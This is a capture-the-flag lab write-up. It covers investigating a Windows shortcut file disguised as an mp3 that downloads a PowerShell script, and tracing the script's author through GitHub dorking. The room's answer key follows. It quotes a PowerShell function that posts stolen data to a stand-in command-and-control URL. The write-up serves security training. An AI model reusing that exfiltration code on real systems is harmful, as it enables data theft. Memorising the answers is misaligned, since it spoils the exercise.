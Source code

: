 Day 1 - Maybe SOC-mas music, he thought, doesn't come from a store?
Learning Objectives
Learn how to investigate malicious link files.
Learn about OPSEC and OPSEC mistakes.
Understand how to track and attribute digital identities in cyber investigations.

 It’s about a youtube converting website claiming to be safe. After investigating the website, get a youtube link to convert it. Download the zipfile and there’s 2 file after extraction. using the “file” command to check the file’s contents. song.mp3 looks okay but the somg.mp3 looks very suspicious, the output of states that it an “MS Windows shortcut”. So, investigate more with exifTool, and there you can see that this file, somg.mp3, is pulls file from remote server and saves it in the target directory. Next, go to the remote server, ‘https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1‘, to see it’s content, you should be able to see who created it and the command and control server(c2 server)”:

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

To investigate more, google dork it, remote server shows that it’s githubuser, and we a string from the it, 
Created by the one and only M.M. site:github.com
$c2Url = "http://papash3ll.thm/data" site:github.com

https://github.com/MM-WarevilleTHM/M.M
This will show who M.M. = Mayor Malware

There you have it, with all that information, you successfully completed the learning objectives.


Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 
Answer: Tyler Ramsbey

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?
Answer: http://papash3ll.thm/data

Who is M.M? Maybe his Github profile page would provide clues?
Answer: Mayor Malware

What is the number of commits on the GitHub repo where the issue was raised?
Answer: 1

===================================================

























